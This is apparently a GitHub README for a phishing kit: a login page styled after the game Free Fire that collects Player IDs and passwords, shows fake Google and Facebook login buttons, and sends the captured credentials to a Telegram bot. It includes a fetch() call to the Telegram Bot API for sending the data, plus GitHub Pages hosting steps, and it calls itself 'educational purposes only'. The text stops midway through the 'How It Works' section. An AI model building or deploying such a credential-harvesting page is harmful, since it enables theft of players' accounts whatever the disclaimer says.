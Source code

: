 # 🔥 Free Fire Style Login Page

This is a **fictitious login page inspired by Free Fire** game design, made for **educational purposes only**.  
Users can enter a Player ID and Password, then simulate login using Google or Facebook buttons.

The login data is sent to a **Telegram Bot** via the Bot API — perfect to learn about web forms, HTML/CSS/JS, and Telegram integration.

---

## 🎯 Features

- 🔐 Input fields: Player ID + Password  
- 🧠 Fake login buttons (Google, Facebook)  
- ⚙️ Telegram Bot integration (send info)  
- 🎮 Gaming UI inspired by Free Fire

---

## 🚀 Live Demo (after GitHub Pages is enabled)

> https://your-username.github.io/freefire-login-site/

*(replace `your-username` with your GitHub username)*

---

## 🔧 How It Works

1. User fills in Player ID and Password
2. On click, data is sent using:
   ```js
   fetch(`https://api.telegram.org/botYOUR_TOKEN/sendMessage?...`)
